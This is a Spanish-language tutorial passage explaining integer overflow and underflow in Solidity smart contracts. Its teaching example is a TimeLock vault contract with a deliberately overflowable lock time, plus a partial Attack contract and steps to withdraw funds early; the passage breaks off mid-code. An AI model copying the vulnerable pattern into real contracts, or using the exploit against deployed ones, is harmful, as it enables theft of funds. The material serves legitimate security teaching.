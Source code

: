 Los desbordamientos de enteros ocurren también a la inversa: los resultados de una operación aritmética pueden caer por debajo del rango aceptable (underflow). Digamos que intentó disminuir `0` en un `uint8`; el resultado simplemente se revertiría al valor máximo representable (`255`).

Tanto los desbordamientos de enteros hacia arriba o hacia abajo pueden conducir a cambios inesperados en las variables de estado de un contrato y dar lugar a una ejecución no planificada. A continuación se muestra un ejemplo que muestra cómo un atacante puede explotar el desbordamiento aritmético de overflow en un contrato inteligente para realizar una operación no válida:

```
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for at least a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*
1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
```